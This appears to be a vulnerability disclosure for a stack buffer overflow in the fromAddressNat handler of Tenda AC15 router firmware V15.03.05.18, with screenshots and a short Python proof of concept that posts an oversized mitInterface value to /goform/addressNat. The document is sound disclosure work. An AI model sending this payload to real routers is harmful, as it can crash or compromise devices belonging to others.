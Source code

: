 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `fromAddressNat` function. The `v8` variable receives the `mitInterface` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v8` can trigger this security vulnerability.

![image-20240314223451631](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314223451631.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addressNat"
payload = b"a"*1000

data = {"mitInterface": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314223357026.png)
